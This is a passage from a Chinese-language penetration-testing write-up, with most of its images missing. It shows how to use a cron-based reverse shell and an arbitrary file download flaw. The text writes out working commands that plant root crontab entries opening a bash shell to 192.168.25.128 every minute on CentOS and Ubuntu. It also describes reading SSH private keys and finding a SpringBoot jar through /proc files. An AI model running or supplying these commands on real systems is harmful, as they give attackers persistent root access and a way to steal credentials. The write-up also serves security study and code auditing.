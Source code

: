 ![](/dmsj_img/Pasted%20image%2020241216182836.png)

![](/dmsj_img/Pasted%20image%2020241216192227.png)

```
centos:
echo '*/1 * * * * bash -i >& /dev/tcp/192.168.25.128/11111 0>&1' > /var/spool/cron/root

echo '*/1 * * * * root bash -i >& /dev/tcp/192.168.25.128/33333 0>&1' >> /etc/crontab

ubuntu:
echo '*/1 * * * * bash -c "bash -i >& /dev/tcp/192.168.25.128/11111 0>&1"' > /var/spool/cron/crontabs/root

echo '*/1 * * * * root bash -c "bash -i >& /dev/tcp/192.168.25.128/33333 0>&1"' >> /etc/crontab
```


![](/dmsj_img/Pasted%20image%2020241216192201.png)

![](/dmsj_img/Pasted%20image%2020241216192332.png)

其实这里还是有些问题的，ubuntu对于计划任务的文件权限有些要求，测试600可以正常反弹，centos应该就可以直接使用这个方式了：

![](/dmsj_img/Pasted%20image%2020241216193051.png)

## 4、任意文件下载

这个漏洞在打多数的系统中都是用来获取敏感信息的，如果想要以此获得更多东西，可以尝试读取配置文件、/home/username/.ssh/id_rsa(id_ecdsa)、或者jar包：

```
【Step1】定位启动的时候jar包的pid

    通过任意文件读取/proc/sched_debug，获取服务器中的进程信息。通过关键字java定位SpringBoot对应的进程，获取进程号pid。实战取决于目标系统的情况，实在不行可以爆破。

【Step2】获取jar包绝对路径

    通过/proc/[PID]/cmdline和/proc/[PID]/environ,其中的PWD存在绝对路径，一般情况下通过这种方式可以拿到SpringBoot对应的jar包的绝对路径。其中cmdline可以获取进程对应的包名，environ可以获取对应的绝对路径，组合之后可以得到jar包对应绝对路径。
```

关键词：

```
fileName
filePath
getFile
getWriter
InputStream
File 
OutputStreaam 
BufferedInputStream
FileInputStream
```
